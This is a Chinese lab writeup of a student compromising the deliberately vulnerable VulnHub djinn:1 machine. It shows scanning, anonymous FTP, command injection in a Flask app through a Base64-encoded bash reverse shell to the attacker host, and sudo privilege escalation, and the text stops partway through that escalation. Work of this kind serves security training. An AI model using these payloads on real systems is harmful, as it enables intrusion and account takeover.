







# 网络攻防实战 Lab08 Writeup

!!! quote "使用的靶机为 VulnHub djinn:1"

!!! success "有趣的 Lab"

## 渗透目的

取得目标靶机的 root 权限

了解 pyc 文件的逆向分析；了解 Python 2.x `input()` 相关漏洞；了解 Port Knocking 技术

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 13:53 CST
Nmap scan report for 10.0.2.1
Host is up (0.00073s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for 10.0.2.2
Host is up (0.00031s latency).
MAC Address: 08:00:27:7B:29:13 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.8
Host is up (0.00072s latency).
MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.3
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.20 seconds
```

考虑靶机 ip 为 `10.0.2.8`，继续扫描端口 `nmap -sV -sC 10.0.2.8`，看看有哪些服务项

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 13:55 CST
Nmap scan report for 10.0.2.8
Host is up (0.0032s latency).
Not shown: 998 closed tcp ports (reset)

// FTP 服务，允许匿名访问
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt

// SSH 服务，filtered 似乎说明有防火墙限制
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.07 seconds
```

没有靶机操作系统的信息

---

### Getshell 尝试

#### FTP 访问

先匿名访问 FTP，把所有文件下载：

```
> ftp 10.0.2.8 21
Connected to 10.0.2.8.
220 (vsFTPd 3.0.3)
Name (10.0.2.8:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget creds.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||40665|)
150 Opening BINARY mode data connection for creds.txt (11 bytes).
100% |**************************************************|    11        1.90 KiB/s    00:00 ETA
226 Transfer complete.
11 bytes received in 00:00 (1.09 KiB/s)
mget game.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||35007|)
150 Opening BINARY mode data connection for game.txt (128 bytes).
100% |**************************************************|   128       20.72 KiB/s    00:00 ETA
226 Transfer complete.
128 bytes received in 00:00 (13.57 KiB/s)
mget message.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||40817|)
150 Opening BINARY mode data connection for message.txt (113 bytes).
100% |**************************************************|   113       25.88 KiB/s    00:00 ETA
226 Transfer complete.
113 bytes received in 00:00 (17.13 KiB/s)
```

逐个文件进行分析：

```title="cred.txt"
nitu:81299
```

```title="message.txt"
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

```title="game.txt"
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

得知 1337 端口开放了一个小游戏，浏览器打不开，考虑 socket 访问

#### socket 访问

进入后发现是一个计算小游戏：

```
> nc 10.0.2.8 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
  

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(7, '/', 3)
> 2
(8, '*', 7)
> 56
(1, '+', 3)
> 4
(1, '-', 7)
> -6
(1, '*', 8)
> 114514
Wrong answer
```

需要回答 1000 次问题才能得到 "gift"，写一个 Python 自动化处理

```python title="exp.py"
import socket
import re

host = "10.0.2.8"
port = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

pattern = re.compile(r'\((\d+), \'([+\-*/])\', (\d+)\)')

count = 0
buffer = ""
# 其实有 1001 次提问
while count <= 1001:
    data = s.recv(1024).decode('utf-8')
    buffer += data
    print(data, end="")
    
    if ">" in buffer:
        match = pattern.search(buffer)
        if match:
            num1 = int(match.group(1))
            operator = match.group(2)
            num2 = int(match.group(3))

            result = None
            if operator == '+':
                result = num1 + num2
            elif operator == '-':
                result = num1 - num2
            elif operator == '*':
                result = num1 * num2
            elif operator == '/':
                result = num1 // num2

            s.send(f"{result}\n".encode('utf-8'))
            buffer = ""
        count += 1
        
while True:
    data = s.recv(1024).decode('utf-8')
    if not data:
        break
    print(data, end="")

s.close()

```

拿到神秘 gift：

```hl_lines="10"
Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.

# 省略

> Here is your gift, I hope you know what to do with it:

1356, 6784, 3409
```

暂时不知道有什么用，先搁置

??? abstract "这里我意识到一开始的 nmap 扫描并没有覆盖到所有的端口"

    socket 连接的 1337 端口就没有被扫描到，于是我考虑对全部端口进行扫描：
    
    ```hl_lines="26 44"
    > nmap -p- -sV -sC 10.0.2.8
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 15:32 CST
    Nmap scan report for 10.0.2.8
    Host is up (0.0026s latency).
    Not shown: 65531 closed tcp ports (reset)
    PORT     STATE    SERVICE VERSION
    21/tcp   open     ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
    | -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
    |_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.0.2.3
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 4
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp   filtered ssh
    1337/tcp open     waste?
    | fingerprint-strings: 
    |   NULL: 
    |     ____ _____ _ 
    |     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
    |     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
    |     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
    |     Let's see how good you are with simple maths
    |     Answer my questions 1000 times and I'll give you your gift.
    |     '*', 9)
    |   RPCCheck: 
    |     ____ _____ _ 
    |     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
    |     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
    |     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
    |     Let's see how good you are with simple maths
    |     Answer my questions 1000 times and I'll give you your gift.
    |_    '+', 3)
    7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
    |_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
    |_http-title: Lost in space
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port1337-TCP:V=7.95%I=7%D=11/25%Time=69255B8F%P=x86_64-pc-linux-gnu%r(N
    SF:ULL,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x2
    SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__
    SF:\x20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x2
    SF:0__\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_
    SF:\x20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\
    SF:x20`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|
    SF:\x20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20
    SF:\|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|
    SF:\x20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\
    SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:\n\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20math
    SF:s\nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x2
    SF:0you\x20your\x20gift\.\n\(7,\x20'\*',\x209\)\n>\x20")%r(RPCCheck,1BC,"\
    SF:x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20_
    SF:\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20___
    SF:\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20_
    SF:\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\
    SF:x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x20
    SF:\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\x
    SF:20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|\
    SF:\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20\
    SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's\
    SF:x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer\
    SF:x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20yo
    SF:ur\x20gift\.\n\(1,\x20'\+',\x203\)\n>\x20");
    MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
    Service Info: OS: Unix
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 106.00 seconds
    ```
    
    发现有 1337 和 7331 两个端口没有被扫描到，分别是刚刚的运算小游戏和一个 HTTP 页面

#### HTTP 访问

根目录没什么东西：



然后扫一遍目录：

```
> dirb http://10.0.2.8:7331 /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov 25 15:42:25 2025
URL_BASE: http://10.0.2.8:7331/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458      

---- Scanning URL: http://10.0.2.8:7331/ ----
+ http://10.0.2.8:7331/genie (CODE:200|SIZE:1676)
+ http://10.0.2.8:7331/wish (CODE:200|SIZE:385)
-----------------
END_TIME: Tue Nov 25 15:47:30 2025
DOWNLOADED: 20458 - FOUND: 2
```

扫出来两个子目录

首先是 `/genie`，表面上是 403 禁止访问，其实是 200 OK

藏了一行小字：`It's not that hard`



再看看另一个 `/wish`：



看到 Execute 有一种代码注入的感觉，交一发 `ls` 试试：


跳转到了 `/genie` 页面，发现多了一个 `name` 字段，内容是 `ls` 的输出结果，说明可以从这里 Getshell

先试试之前用过的 `hello | echo 'bash -i >& /dev/tcp/10.0.2.3/1234 0>&1' | bash`，发现没有 Getshell，得到了这样的结果：

```http
http://10.0.2.8:7331/genie?name=Wrong+choice+of+words
```

看来有黑名单筛选，Base64 一下绕过：

```title="/wish injection"
# bash -i >& /dev/tcp/10.0.2.3/1234 0>&1
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMy8xMjM0IDA+JjE=| base64 -d|bash
```

```title="攻击机 Shell"
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.8] 56068
bash: cannot set terminal process group (607): Inappropriate ioctl for device
bash: no job control in this shell
www-data@box7:/opt/80$ 
```

成功 Getshell，用户为低权限 www-data

### 提权尝试

#### www-data → nitish

首先获得更好的 Shell 体验（否则之后用不了 `su` 指令），然后看一下有没有高权限用户：

```hl_lines="32 34"
www-data@box7:/opt/80$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@box7:/opt/80$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash                  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin             
sys:x:3:3:sys:/dev:/usr/sbin/nologin             
sync:x:4:65534:sync:/bin:/bin/sync               
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin     
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin      
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin                   
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin        
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false        
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin    
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin    
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash       
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
nitish:x:1001:1001::/home/nitish:/bin/bash   
```

考虑在获取 root 权限之前，先尝试获取 `sam` / `nitish` 的权限。首先尝试访问两个用户的家目录：

```
www-data@box7:/opt/80$ ls /home/sam
ls: cannot open directory '/home/sam': Permission denied
www-data@box7:/opt/80$ ls /home/nitish
user.txt
```

发现只有 `nitish` 用户的目录可以进入：

```
www-data@box7:/opt/80$ cd /home/nitish
www-data@box7:/home/nitish$ ls -a
.  ..  .bash_history  .bashrc  .cache  .dev  .gnupg  user.txt
www-data@box7:/home/nitish$ cat ./user.txt
cat: ./user.txt: Permission denied
```

文件没有读权限

从目前来着，这两个用户目前无法访问相关的文件内容，只能回到最开始的 `/opt/80`，`ls` 搜一下文件

```
www-data@box7:/opt/80$ ls -a -l  
ls -a -l
total 24
drwxr-xr-x 4 www-data www-data 4096 Nov 17  2019 .
drwxr-xr-x 4 root     root     4096 Nov 14  2019 ..
-rw-r--r-- 1 www-data www-data 1323 Nov 13  2019 app.py
-rw-r--r-- 1 www-data www-data 1846 Nov 14  2019 app.pyc
drwxr-xr-x 5 www-data www-data 4096 Nov 13  2019 static
drwxr-xr-x 2 www-data www-data 4096 Nov 14  2019 templates
```

发现 `app.pyc` 和 `app.py` 两个有价值的文件（另外两个文件夹的内容是一些网页前端模板），前一个文件类型 `.pyc` 是 Python 源代码编译后生成的文件，或许 `app.py` 是其源代码

```python title="app.py"
import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route("/wish", methods=['POST', "GET"])
def wish():
    execute = request.form.get("cmd")
    if execute:
        if validate(execute):
            output = subprocess.Popen(execute, shell=True,
                                      stdout=subprocess.PIPE).stdout.read()
        else:
            output = "Wrong choice of words"

        return redirect(url_for("genie", name=output))
    else:
        return render_template('wish.html')


@app.route('/genie', methods=['GET', 'POST'])
def genie():
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = "It's not that hard"

    return render_template('genie.html', file=page)


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)
```

可以看得出来，上面的程序对应了之前的 HTTP 的后端，注意到这一部分：

```python hl_lines="2 11"
# 一个文件地址
CREDS = "/home/nitish/.dev/creds.txt"

# 一些过滤词
RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]

# 输入合法性检验
# 如果合法性不通过，输出 "Wrong choice of words"（之前已经经历过了）
def validate(cmd):
    # 如果指令中有 CRED 并且没有 cat，合法性通过
    # 明显是个后门
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False

```

可以通过非 cat 的方式输出 `/home/nitish/.dev/creds.txt` 的内容，比如 `head`：

```
head /home/nitish/.dev/creds.txt
http://10.0.2.8:7331/genie?name=nitish%3Ap4ssw0rdStr3r0n9%0A
```

得到了 `name=nitish p4ssw0rdStr3r0n9` 的账密信息，登录：

```hl_lines="4"
www-data@box7:/opt/80$ su nitish 
su nitish
Password: p4ssw0rdStr3r0n9
nitish@box7:/opt/80$
```

成功获得了 nitish 账户的权限

（另外对 `app.pyc` 进行了反编译，发现内容和 `app.py` 基本一致，没有二次分析的必要了）

#### nitish → sam → root

考虑到没有其他的文件线索了，我们只能从 nitish 能够执行的指令入手：

```hl_lines="7"
nitish@box7:/opt/80$ sudo -l
Matching Defaults entries for nitish on box7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nitish may run the following commands on box7:
    (sam) NOPASSWD: /usr/bin/genie
```

发现 nitish 账号可以无密码调用 sam 的指令 `genie`（这个名字也很熟悉），所以查询 `genie` 的用法：

```hl_lines="11 16 17 18"
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish

nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie -h
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:
  wish                  Enter your wish

optional arguments:
  -h, --help            show this help message and exit
  -g, --god             pass the wish to god
  -p SHELL, --shell SHELL
                        Gives you shell
  -e EXEC, --exec EXEC  execute command

```

发现神秘的必选参数 `wish`，以及神秘的可选参数 `-g` `-p` `-e`，看上去很强大，试试 `man` 具体查一下，真的查到了指南：

```
man /usr/bin/genie | cat

man(8)                          genie man page                          man(8)

NAME
       genie - Make a wish

SYNOPSIS
       genie [-h] [-g] [-p SHELL] [-e EXEC] wish

DESCRIPTION
       genie would complete all your wishes, even the naughty ones.

       We  all  dream  of getting those crazy privelege escalations, this will
       even help you acheive that.

OPTIONS
       wish

              This is the wish you want to make .

       -g, --god

              Sometime we all would like to make a wish to  god,  this  option
              let you make wish directly to God;

              Though  genie can't gurantee you that your wish will be heard by
              God, he's a busy man you know;

       -p, --shell

              Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

       -e, --exec

              Execute command on someone else computer is just too  damn  fun,
              but this comes with some restrictions.

       -cmd

              You know sometime all you new is a damn CMD, windows I love you.

SEE ALSO
       mzfr.github.io

BUGS
       There  are  shit  loads  of bug in this program, it's all about finding
       one.

AUTHOR
       mzfr

1.0                            11 November 2019                         man(8)

```

这个 `man` 给出的内容似乎有些毛病（或许是有意为之），不过最终借助 `-cmd` 参数获得了 sam 用户的 shell：

```
nitish@box7:/opt/80$ genie -p "/bin/bash"
genie -p "/bin/bash"
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie -cmd whoami
my man!!
$ whoami
sam
$ sudo -l
Matching Defaults entries for sam on box7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on box7:
    (root) NOPASSWD: /root/lago
```

又发现一个神秘指令 `lago`，调用一下看看：

```
$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:1
Working on it!!

$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
